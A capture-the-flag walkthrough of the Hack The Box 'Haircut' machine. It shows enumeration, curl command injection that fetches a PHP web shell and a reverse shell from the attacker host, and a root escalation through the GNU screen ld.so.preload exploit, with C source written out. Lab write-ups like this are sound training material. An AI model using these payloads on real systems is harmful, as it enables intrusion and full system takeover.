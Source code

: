 
![logo](/logo.png)

# [Haircut- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 26 May 2017 as the eight machine on HTB,Haircut created by [r00tkie](https://app.hackthebox.com/users/462) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/haircut 10.10.10.24
```

###### Output 

![](/Linux/Linux-Medium/Haircut/Screenshoots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/haircut 10.10.10.24                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 04:52 EAT
Nmap scan report for 10.10.10.24
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.78 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `ngix 1.10.0`. 

port[22]-ssh
port[80]-nginx

when we naviagate to [http://10.10.10.24](http://10.10.10.24)  we find a page which seem to be a haircut website

![](/Linux/Linux-Medium/Haircut/Screenshoots/haircut.png)

so lets do a `gobuster` so that we can enumerate active directory

```sh
gobuster dir --url http://10.10.10.24 --wordlist
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t
50
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/gobuster.png)

We find an `/uploads/` directory, as well as an `exposed.php` endpoint.Lets open the the php file 

![](/Linux/Linux-Medium/Haircut/Screenshoots/exposed.png)

The `exposed.php` endpoint accepts a URL and appears to send a request to it

# Exploitation

We set up a listener with netcat to inspect the raw request

```sh
nc -nlvp 8000
```

We then send a request to our machine's IP via the web application

```sh
http://10.10.14.70:8000
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/test.png)

We can see the curl User-Agent header, indicating that the server likely uses the command-line
utility cURL to make the request. This opens up the target to command injection.
If our input is passed directly to the command, we might be able to append the -o flag to save
the curl output to a file. More specifically, since we can access the `/uploads/` directory on the
web server, we could upload a web shell there and obtain remote code execution.
We first write a PHP web shell into a file:

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/shell.png)

Finally, we use the following payload to inject the flag and save the file to the uploads directory

```sh
http://10.10.14.15:8000/shell.php -o uploads/shell.php
```

so when we enter this and hit `Go` we can see that its pulling the shell that i just created

![](/Linux/Linux-Medium/Haircut/Screenshoots/http.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/upload.png)

when we access the shell from the upload folder we can be able to see that we can access `www`

![](/Linux/Linux-Medium/Haircut/Screenshoots/www.png)

We can leverage this to an interactive shell by using a pre-made [PHP reverse shell ](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  script.We change the $ip and $port parameters and proceed to upload the script in the same fashion
as before.

so lets go and upload this interactive shell

```sh
http://10.10.14.15:8000/php-reverse-shell.php -o uploads/php-reverse-shell.php
```

we can see that the file has been uploaded so lets execute it to get shell

![](/Linux/Linux-Medium/Haircut/Screenshoots/exploit.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/revershell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```


we can now get the user flag

![](/Linux/Linux-Medium/Haircut/Screenshoots/user.png)

# Privillage Escalation

We run the `LinEnum`  to see what might be vulnerable 

![](/Linux/Linux-Medium/Haircut/Screenshoots/LinEnum.png)


![](/Linux/Linux-Medium/Haircut/Screenshoots/screen.png)

Researching this version leads us to [Exploit-DB](https://www.exploit-db.com/exploits/41154), where there is a public exploit for this tool.We will run the script's steps manually, to better understand the vulnerability and resolve any
errors that might arise. We will use /tmp for our exploit-related files

We start by creating the libhax.c file on the target machine, by running this command:

```sh
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
chown("/tmp/rootshell", 0, 0);
chmod("/tmp/rootshell", 04755);
unlink("/etc/ld.so.preload");
printf("[+] done!\n");
}
EOF
```

```sh
export PATH=/usr/bin:$PATH
```

ext, we try compiling it with gcc :

```sh
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

We re-run the gcc command, which results in a warning, but successfully compiles the shared
object

![](/Linux/Linux-Medium/Haircut/Screenshoots/libhax.png)

Next, we save the rootshell.c file:

```sh
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
setuid(0);
setgid(0);
seteuid(0);
setegid(0);
execvp("/bin/sh", NULL, NULL);
}
EOF
```

```sh
gcc -o /tmp/rootshell /tmp/rootshell.c
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/rootshell.png)

```sh
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

After running the command sequence, we find ourselves in a shell as root :

![](/Linux/Linux-Medium/Haircut/Screenshoots/etc.png)

Then we get root `flag.txt`  

![](/Linux/Linux-Medium/Haircut/Screenshoots/root.png)


	-------------------------END successful attack @lesley------------